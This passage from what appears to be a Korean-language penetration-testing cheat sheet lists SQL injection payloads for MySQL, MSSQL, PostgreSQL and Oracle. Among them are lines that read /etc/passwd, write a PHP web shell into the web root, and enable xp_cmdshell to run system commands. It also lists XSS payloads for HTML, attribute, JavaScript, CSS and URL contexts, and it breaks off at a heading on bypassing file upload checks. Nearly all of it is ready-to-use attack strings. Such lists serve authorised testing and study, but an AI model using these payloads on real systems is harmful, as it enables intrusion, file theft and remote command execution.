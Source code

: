 ### 📊 Database 특화 SQL Injection

```bash
# MySQL
' UNION SELECT 1,2,3,4,5--
' UNION SELECT 1,user(),database(),version(),5--
' UNION SELECT 1,2,3,load_file('/etc/passwd'),5--
' UNION SELECT 1,2,3,4,'<?php system($_GET[\"cmd\"]); ?>' INTO OUTFILE '/var/www/html/shell.php'--

# MSSQL
' UNION SELECT 1,2,3,4,5--
' UNION SELECT 1,@@version,db_name(),user_name(),5--
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'whoami'--

# PostgreSQL
' UNION SELECT 1,2,3,4,5--
' UNION SELECT 1,version(),current_database(),current_user,5--

# Oracle
' UNION SELECT 1,2,3,4,5 FROM dual--
' UNION SELECT 1,banner,3,4,5 FROM v$version--
```

### 🎨 XSS Context별 페이로드

```bash
# HTML Context
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>

# Attribute Context
" onmouseover="alert('XSS')
' onmouseover='alert('XSS')
javascript:alert('XSS')

# JavaScript Context
'; alert('XSS'); //
"; alert('XSS'); //
</script><script>alert('XSS')</script>

# CSS Context
</style><script>alert('XSS')</script>
expression(alert('XSS'))

# URL Context
javascript:alert('XSS')
data:text/html,<script>alert('XSS')</script>
```

### 🔄 File Upload 확장자 우회
